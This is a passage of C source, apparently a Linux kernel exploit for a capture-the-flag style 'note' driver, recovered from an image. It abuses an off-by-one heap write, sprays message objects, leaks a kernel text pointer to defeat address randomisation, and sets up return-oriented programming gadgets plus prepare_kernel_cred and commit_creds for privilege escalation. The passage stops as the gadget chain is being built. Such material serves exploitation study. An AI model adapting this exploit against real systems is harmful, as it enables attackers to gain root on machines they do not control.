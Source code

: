 ```c

    // off-by-one
    note_write();

    // move note
    note_close();
    msg_alloc(0x80);
    note_alloc();

    // leak
    void *kernel_text;
    unsigned long long int offset;

    socket(22, AF_INET, 0);
    note_read();

    kernel_text = (void *)(*(unsigned long long int *)(&read_args.addr[0x60]));
    kernel_text -= 0x6bac0;
    offset = (unsigned long long int)kernel_text - 0xffffffff81000000;

    printf("kernel_text: %p\n", kernel_text);
    printf("offset     : %#08llx\n", offset); 
    printf("main       : %p\n", main);
    printf("ropchain   : %p\n", ropchain);

    msg_alloc(0x80);
    
    // allocate to a new page
    msg_alloc(0x80);
    msg_alloc(0x80);
    note_alloc();

    // off-by-one
    note_write();

    // move note
    note_close();
    msg_alloc(0x80);
    note_alloc();

    // next kmalloc will allocate memory that is same as note at

    printf("save stats\n");
    save_stats();

    void *push_rdi_xxx_pop_rsp = (void *)offset + 0xffffffff8121a154;
    void *pop_rdi_ret    = (void *)offset + 0xffffffff81047823;
    void *mov_rdx_r8     = (void *)offset + 0xffffffff8121a7ab;
    void *mov_rdi_rax    = (void *)offset + 0xffffffff810a296e;
    void *swapgs_pop_rbp = (void *)offset + 0xffffffff8103ef24;
    void *pop_rsp        = (void *)offset + 0xffffffff81036561;
    void *iretq          = (void *)kernel_text + 0x1d5c6;

    void *prepare_kernel_cred = (void *)kernel_text + 0x69e00;
    void *commit_creds        = (void *)kernel_text + 0x69c10;

    printf("push_rdi_xxx_pop_rsp   : %p\n", push_rdi_xxx_pop_rsp); // push rdi ; or byte ptr [rbx + 0x41], bl ; pop rsp ; pop r13 ; pop rbp ; ret

    // memset(args.addr, 0, 0x80);
    
    int rop_start = 0x5000;
    int rop_idx = rop_start;
```